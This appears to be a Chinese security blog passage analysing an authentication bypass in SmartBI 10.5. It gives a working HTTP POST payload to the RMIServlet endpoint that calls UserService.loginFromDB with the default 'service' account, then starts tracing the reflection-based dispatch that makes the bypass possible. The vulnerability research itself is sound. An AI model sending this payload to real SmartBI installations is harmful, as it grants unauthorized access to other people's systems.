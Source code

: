 前几天smartbi爆出一个身份绕过的漏洞，使用特定接口就可以直接使用默认账户和密码即可登录系统，但是直接登陆却不行，所以这里来分析一下漏洞造成的原因

0x01 漏洞复现
=========

发送以下payload

```php
POST /smartbi/vision/RMIServlet HTTP/1.1
Host: 127.0.0.1:18080
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh-HK;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6,ja-JP;q=0.5,ja;q=0.4,und;q=0.3
Cache-Control: no-cache
Connection: keep-alive
Content-Length: 82
Content-Type: application/x-www-form-urlencoded
Cookie: FQPassword=; FQConfigLogined=; JSESSIONID=8960DCEA022820DBAE4F00B72BF64FC6;
Origin: http://127.0.0.1:18080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36

className=UserService&methodName=loginFromDB&params=["service","0a"]
```

![image-20230704170829134](https://shs3.b.qianxin.com/butian_public/f491691088dd2824db87844e0ac84aec988e5bdf42c87.jpg)

然后直接访问`http://127.0.0.1:18080/smartbi/vision/index.jsp`即可登录成功

![image-20230704171053375](https://shs3.b.qianxin.com/butian_public/f1198079a010a9a0a761bddd802ea8bb3a69135f82e80.jpg)

0x02 漏洞分析
=========

通过官方补丁查看该漏洞在6月才更新了安全补丁，官网最新版本跟新时间是5月24号，所以我们直接下载官网最新版的10.5即可。

下载安装后在`/smartbi/Tomcat/webapps/smartbi`即为网站程序目录，将项目导入idea后配置进行debug调试代码。

在`web.xml`中我们找到路径`/vision/RMIServlet`所对应的类

![image-20230704145519389](https://shs3.b.qianxin.com/butian_public/f401294e418a8a7240792a60dd8210b66f041395828c7.jpg)

看到RMI我们会想到RMI远程调用，但这里并不是，这里只是传参然后通过反射的方式调用类和方法并传递参数进行执行。

> Java反射是Java编程语言中的一个特性，它允许程序在运行时动态地获取类的信息并操作类的成员。通过使用反射，我们可以在运行时获取类的构造函数、字段和方法等信息，并且可以动态地创建对象、调用方法和访问字段。

我们看这里的`doPost`的方法:

![image-20230704145910989](https://shs3.b.qianxin.com/butian_public/f63916755def036ca90389b45f5d7d4af265d2c45a95b.jpg)

这里通过post方式或者三个参数`className`,`methodName`,`params`，这里传入的为:

```php
className=UserService&methodName=loginFromDB&params=["service","0a"]
```

所以调用`UserService`类的`loginFromDB`方法
